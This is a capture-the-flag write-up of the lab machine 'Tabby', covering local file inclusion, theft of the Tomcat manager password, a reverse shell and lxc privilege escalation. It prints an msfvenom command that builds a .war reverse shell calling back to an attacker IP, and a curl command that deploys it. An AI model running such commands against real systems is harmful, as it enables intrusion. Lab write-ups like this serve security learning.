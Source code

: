 # Tabby

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### LFI

We would have to add `megahosting.htb` to our `/etc/hosts` file to view port 80. Afterwards, we would just see something like this on the page:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

When we press the Compare button, we would be brought to `/news.php?file=statement`. I tested for LFI, and it worked!

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### Tomcat

Tomcat was running on port 8080, and we would need to somehow get the manager password to upload a .war reverse shell. Since we have LFI, we can read it at `/usr/share/tomcat9/etc/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

The password is `$3cureP4s5w0rd123!`. Then, we can login to the admin dashboard, create a .war reverse shell using `msfvenom`, upload it, and execute it via `curl`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f war -o rev.war
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/mnager/text/deploy?path=/shell --upload-file rev.war
```

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Zip --> Ash

When looking aroun the file system, I found this backup file here:

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

This waws password protected, so let's transfer this back to our machine via `nc` and then use `john` on it:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

The backup file had nothing on it...which was weird. Since we have a password, might as well try `su`, and it worked to getting to `ash`:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### LXC Group

When we check the `id` of `ash`, we see that they are part of the `lxc` group.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

This exploitable because we can create a container and mount it with root access to the main machine.

{% embed url="https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/" %}

Following the resource above, we can spawn a root shell:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Rooted!
